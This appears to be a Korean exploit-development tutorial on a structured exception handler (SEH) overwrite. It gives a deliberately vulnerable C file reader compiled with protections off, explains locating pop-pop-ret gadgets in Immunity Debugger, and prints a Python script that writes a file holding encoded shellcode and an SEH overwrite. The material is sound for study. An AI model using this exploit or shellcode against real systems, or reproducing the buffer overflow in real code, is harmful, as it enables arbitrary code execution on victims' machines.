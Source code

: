 `pop; pop; retn`은 immunity debugger의 pycommand 기능을 사용하여 찾을 수 있다. `!search pop r32\npop r32\nretn` 명령어를 통해 검색을 하고, SafeSEH가 적용되어 있지 않은 취약 코드 모듈 부분을 선택하면 된다.


#### 1. Vulnerable Code

```c
#pragma warning(disable:4996)
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char* argv[]) {

	char readbuf[500] = { 0, };
	printf("[+] Text Reader\n");
	if (argc != 2) {
		printf("	Usage : reader.exe filename\n");
		exit(1);
	}
	FILE *f = fopen(argv[1], "r");
	fgets(readbuf, 3000, f);
	printf("File Contents : %s\n", readbuf);
	return 0;
}
```

보안 옵션
- 보안 검사 : 보안 검사 사용 안함(/GS-)
- DEP(데이터 실행 방지) : 아니요(/NXCOMPAT:NO)
- 임의 기준 주소 : 예(/DYNAMICBASE)
- 이미지에 안전한 예외 처리기 포함 : 아니요(/SAFESEH:NO)

스택에 3000 byte정도 할당되어 있는 것 같아서 안전하게 3000만큼 입력받도록 하였다.


#### 2. Exploit Code
```python
# reader_seh.exe exploit
import struct

shellcode = (
        b"\xe8\xff\xff\xff\xff\xc2\x5e\x33\xc9\xb1\x2a\xbf\xce\xe7\xd6\xa7"
        b"\x31\x7e\x13\x83\xc6\x04\xe2\xf8\x45\x0b\x3d\x97\x8c\x4a\xb6\xa4"
        b"\x16\x6c\x25\x94\x0e\xd4\x29\x0b\xcd\x1f\x52\x67\xbb\x1e\x5f\xda"
        b"\xde\x86\xef\xda\xde\x92\x33\xa8\x79\xb3\x87\x59\x45\x9a\xce\x2c"
        b"\xb9\xfb\xd5\x54\x45\xdb\x40\xa4\x35\x6c\x11\x64\xaa\x46\xe6\xa7"
        b"\xce\xe7\x5d\xe7\xc2\x6c\x96\xb3\x45\xff\x5d\xbc\x45\xbc\xc6\x2c"
        b"\xb5\xdb\xd5\x5c\x45\x98\xae\xa4\x35\x6e\xab\xbf\x45\x90\xf6\xa4"
        b"\x3d\x6c\x99\x83\xcd\x2c\xe5\x75\xae\xd4\x29\xc1\x71\x54\xd4\x4f"
        b"\x56\x18\x29\x58\x47\xa2\xf6\xc6\xfd\x18\xb0\x18\xb7\xe3\x3e\x2e"
        b"\x31\x18\x29\x2e\x8b\xc3\xe5\x67\x08\xa2\xda\xc4\x08\xa2\xdb\xc6"
        b"\x08\xa2\xd8\xcb\x08\xa2\xd9\xc4\x47\xa2\xc6\x94\x0e\xa7\x86\x2a"
        b"\x8b\xeb\x86\x58\x9b\xc7\xe5\x67\x9e\x18\x83\x83"
	)

print("[+] Create text file...")
dummy = b"A" * 600
nseh = struct.pack('<L', 0x909006eb)    # nop nop jmp
# seh = struct.pack('<L', 0x2D20E2)
seh = struct.pack('<L', 0x2D20E2)
contents = dummy + nseh + seh + shellcode + b"A" * 3000
f = open("test.txt", "wb")
f.write(contents)
f.close()
```
